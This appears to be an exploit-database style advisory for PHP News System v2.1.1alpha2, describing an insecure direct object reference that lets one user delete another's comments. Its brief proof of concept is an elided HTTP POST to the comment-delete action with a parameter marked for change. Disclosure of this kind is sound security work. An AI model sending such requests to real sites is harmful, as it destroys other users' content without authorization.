 # Exploit Title: PHP News System v2.1.1alpha2 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/phpns/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP News System
## Version: v2.1.1alpha2
## Exploit Description:
## PHP News System v2.1.1alpha2 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete comment that owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /article.php?do=comments&id=4&action=delete HTTP/1.1
...
3=3(CHANGE HERE)
```